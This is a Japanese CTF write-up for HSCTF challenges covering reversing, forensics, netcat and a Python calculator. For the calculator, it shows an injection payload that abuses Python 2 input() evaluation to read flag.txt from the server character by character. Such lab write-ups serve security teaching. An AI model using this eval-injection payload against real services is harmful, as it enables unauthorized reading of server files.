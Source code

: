# Web以外

## Reverse Engineering

### AP Lab: Computer Science Principles

```txt
This activity will ask you to reverse a basic program and solve an introductory reversing challenge. You will be given an output that is to be used in order to reconstruct the input, which is the flag.

Note: The "Student Guide" isn't needed to solve the challenges in this series.

Author: AC
```

```java
// ComputerSciencePrinciples.java

import java.util.Scanner;
public class ComputerSciencePrinciples
{
    public static void main(String[] args) {
        Scanner sc = new Scanner(System.in);
        String inp = sc.nextLine();
        if (inp.length()!=18) {
            System.out.println("Your input is incorrect.");
            System.exit(0);
        }
        inp=shift2(shift(inp));
        if (inp.equals("inagzgkpm)Wl&Tg&io")) {
            System.out.println("Correct. Your input is the flag.");
        }
        else {
            System.out.println("Your input is incorrect.");
        }
        System.out.println(inp);
    }
    public static String shift(String input) {
        String ret = "";
        for (int i = 0; i<input.length(); i++) {
            ret+=(char)(input.charAt(i)-i);
        }
        return ret;
    }
    public static String shift2(String input) {
        String ret = "";
        for (int i = 0; i<input.length(); i++) {
            ret+=(char)(input.charAt(i)+Integer.toString((int)input.charAt(i)).length());
        }
        return ret;
    }
}
```

shiftとshift2の足し算してるとこを引き算に書き換えて`inagzgkpm)Wl&Tg&io`を入力する

```txt
$ java ComputerSciencePrinciples.java
flag{intr0_t0_r3v}
```

## Forensics

### Comments

zipファイル

8重にzipされてるので展開していったら`flag.txt`があるが、中身は`No flag here. :(`。  
7zipで展開してるときに8つのファイルにコメントがついてることに気付いた。  

1.zip => f  
2.zip => l  
    :

と続いていって8文字のflagが手に入る。

```txt
flag{4n6}
```

### Meta Mountains

画像ファイルが渡される。stringsしたらflag。

```txt
$ strings mountains_hsctf.jpg
JFIF
Exif
Canon
part 1/3: flag{h1dd3n_w1th1n_
part 2/3: th3_m0unta1ns_
2012:02:03 11:18:05
part 3/3: l13s_th3_m3tadata}
```

```txt
flag{h1dd3n_w1th1n_th3_m0unta1ns_l13s_th3_m3tadata}
```

## Binary Exploitation

### Intro to Netcat 2: Electric Boogaloo

```txt
Intro to Netcat was too difficult, seeing as 32% of teams failed to solve it.

To get the flag, install Netcat.

nc pwn.hsctf.com 5001

Author: meow
```

ncしたら書いてあった。

```txt
> nc pwn.hsctf.com 5001
Hey, here's your flag! flag{https://youtu.be/-TVWst0YqCI}
```

## Miscellaneous

### Does CTFd Work

```txt
Does the Catch The Flag daemon work? Here's the flag: flag{y3S_i7_d03s_3xcl4m4710n_m4rk_890d9a0b}

If you are a student at WW-P, please have your team captain DM JC01010, AC, or PMP with:

All of your registered usernames
Your real names
All student emails (for identification)
Your team This information will be used to register your team on the WW-P leaderboard which you will have access to.
```

書いてある。

```txt
flag{y3S_i7_d03s_3xcl4m4710n_m4rk_890d9a0b}
```

### My First Calculator

```txt
I'm really new to python. Please don't break my calculator!

nc misc.hsctf.com 7001

There is a flag.txt on the server.

Author: meow
```

```python
# calculator.py

#!/usr/bin/env python2.7

try:
    print("Welcome to my calculator!")
    print("You can add, subtract, multiply and divide some numbers")

    print("")

    first = int(input("First number: "))
    second = int(input("Second number: "))

    operation = str(raw_input("Operation (+ - * /): "))

    if first != 1 or second != 1:
        print("")
        print("Sorry, only the number 1 is supported")

    if first == 1 and second == 1 and operation == "+":
        print("1 + 1 = 2")
    if first == 1 and second == 1 and operation == "-":
        print("1 - 1 = 0")
    if first == 1 and second == 1 and operation == "*":
        print("1 * 1 = 1")
    if first == 1 and second == 1 and operation == "/":
        print("1 / 1 = 1")
    else:
        print(first + second)
except ValueError:
    pass
```

```txt
$ nc misc.hsctf.com 7001
Welcome to my calculator!
You can add, subtract, multiply and divide some numbers

First number: 1
Second number: 1
Operation (+ - * /): +
1 + 1 = 2
2
```

数字を2個と演算子を指定したら計算するっぽいように見せておいて、数字は1しか対応してないし、演算子はif列挙。  
firstとsecondはintじゃないとエラー吐くっぽい。  
いろいろ適当に入力してたら`hoge`入力時に不自然なエラーメッセージを見つけた。

```txt
First number: hoge
Traceback (most recent call last):
  File "calculator.py", line 9, in <module>
    first = int(input("First number: "))
  File "<string>", line 1, in <module>
NameError: name 'hoge' is not defined
```

`not defined`...?ってことは入力した`hoge`が変数として扱われてるのだろうか。  
firstに`1`、secondに`first`、演算子に`+`を入力してみる。

```txt
First number: 1
Second number: first
Operation (+ - * /): +
1 + 1 = 2
2
```

ビンゴ。あとはやるだけ。

```txt
Welcome to my calculator!
You can add, subtract, multiply and divide some numbers

First number: ord(open("flag.txt").read()[0:1])
Second number: 0
Operation (+ - * /): hoge

Sorry, only the number 1 is supported
102
```

これでflag.txtの1文字目がわかる。102は**f**。  
`[1:2]`,`[2:3]`と1文字ずつやった。  
python詳しくないのでもっといい方法有るかもしれない。というかあって欲しい。

```txt
flag{please_use_python3}
```
